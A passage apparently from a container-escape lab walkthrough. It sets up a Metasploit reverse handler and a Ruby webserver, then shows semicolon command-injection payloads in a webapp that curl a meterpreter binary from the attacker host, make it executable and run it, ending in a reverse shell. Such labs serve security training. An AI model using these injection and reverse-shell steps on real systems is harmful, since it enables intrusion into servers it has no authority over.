 ```bash
root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/

root@attacker:~/container-escape# ./msfconsole1
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
user@attacker:~$ sudo -i

root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/

root@attacker:~/container-escape# ./start_ruby_webserver
[2022-08-15 18:28:35] INFO  WEBrick 1.4.2
[2022-08-15 18:28:35] INFO  ruby 2.5.1 (2018-03-29) [x86_64-linux-gnu]
[2022-08-15 18:28:35] INFO  WEBrick::HTTPServer#start: pid=3850 port=8001
```

### Find out the attacker machines public IP:
```bash
root@lunalectric-attacker-vm-3v0c:~# cat container-escape/pub-ip
34.70.139.37
```

### Escape time

In the webapp (browser) do the first attack to gain access to the container.

```bash
;curl -vk http://<attacker_vm_public_ip>:8001/met-container -o /tmp/met
```

Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
```
```
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
